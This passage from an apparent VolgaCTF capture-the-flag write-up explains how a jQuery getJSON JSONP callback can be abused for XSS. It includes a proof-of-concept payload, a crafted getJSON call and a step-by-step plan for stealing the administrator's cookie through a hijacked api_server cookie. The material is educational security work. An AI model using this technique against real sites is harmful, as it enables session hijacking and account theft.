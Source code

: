 ![](/images/volgactf-issue.png)

The issue described that if you have control over the URL passed to JQuery getJson function, you could trick it in executing arbritary javascript. This function was heavily used on the application and I had control over the URL since we polluted the api_server cookie.

To verify the theory, I hosted the following js file : ```({"pwn":""+alert(document.domain)});``` and called getJson by specifying  jsoncallback=? in the URL.

```js
$.getJSON("https://example.com/test.js?jsoncallback=?",function(data) {console.log(data)})
```
XSS was triggered successfully.

With this information, the attack to steal the administrator cookie was as following:

1. Upload XSS payload on static.volgactf-task.ru.
2. Hijack the api_server cookie.
3. Trigger a call to getJson and respond with cookie stealing javascript code.

Another problem was that I had partial control on the URL because of the filtering in place. To trigger the XSS I had to specify the jsoncallback parameter, which at the current situation wasn't possible.
I decided to further investigate the code and see if there was any place where I could control the END of the URL and I discovered the following code:

```js
function getUser(guid) {
  if(guid) {
    $.getJSON(`//${api}.volgactf-task.ru/user?guid=${guid}`, function(data) {
      if(!data.success) {
        location.replace('/profile.html');
      } else {
        profile(data.user);
      }
    });
  } 
  ```
